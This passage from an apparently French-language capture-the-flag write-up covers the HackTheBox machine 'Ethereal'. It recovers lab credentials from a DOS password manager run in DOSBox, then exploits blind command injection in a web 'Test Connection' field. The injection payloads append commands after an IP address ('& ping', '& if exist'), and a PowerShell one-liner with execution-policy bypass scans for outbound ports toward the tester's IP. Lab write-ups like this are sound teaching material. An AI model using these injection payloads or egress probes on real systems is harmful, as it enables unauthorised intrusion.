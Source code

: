 Avec *Fat Cat* on extrait l'exécutable *pbox.exe* ainsi que les mots de passes chiffrés (*pbox.dat*).  

[Wine](https://www.winehq.org/) nous invite poliment à nous diriger vers [DOSBox](https://www.dosbox.com/) pour émuler le programme MSDOS.  

Pour accéder à l'exécutable depuis DOSBox il faut d'abord monter son emplacement depuis l'émulateur puis se placer dedans. On en profite pour charger le clavier français car on est amené à saisir des mots de passe.  

```plain
mount c .
c:
keyb fr
```

On teste les mots de passe les plus fréquents (123456, etc) et on arrive rapidement sur *password* :  

![Ethereal HackTheBox CTF pbox decrypt DOSbox](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/ethereal_pbox.png)

Cette fois les identifiants *alan / !C414m17y57r1k3s4g41n!* nous permettent d'accéder au port 8080 :)  

Message in a bottle
-------------------

On a dorénavant un champ de texte sur une page web avec le titre *Test Connection*. Ça peut faire penser [au cmdlet Powershell](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/test-connection?view=powershell-6) correspondant pour effectuer un ping... oui mais non.  

Certes si on rentre notre IP on peut observer deux messages ICMP ECHO arriver mais toute tentative d'injection de code Powershell à la suite de l'adresse IP semble dévorée par [Urizen](http://imagecomics.wikia.com/wiki/Urizen) ([Spawn 96](http://imagecomics.wikia.com/wiki/Spawn_Vol_1_96) pour les connaisseurs).  

Cette exécution de commande distante (RCE) totalement en aveugle (aucun output ni message d'erreur) existe pourtant bien comme l'atteste la saisie suivante qui génère 12 pings vers notre machine :  

```plain
10.10.14.221 & ping -n 10 10.10.14.221
```

Tenter depuis *Ethereal* d'accéder à un partage Samba sous notre contrôle échoue aussi, certainement une règle de pare-feu qui fait du zèle.  

J'ai tenté d'exécuter ce port-scanner en PowerShell histoire de connaître les ports autorisés mais rien, pas même une carte postale :(   

```plain
powershell.exe -nop -exec bypass -c "1..65535 | % { (New-Object Net.Sockets.TcpClient).Connect('10.10.15.208', $_) }"
```

En revanche on peut utiliser les spécificités du langage Batch pour tester la présence de dossiers et fichiers par exemple :  

```plain
10.10.14.221 & if exist c:\inetpub ping -n 3 10.10.14.221
```
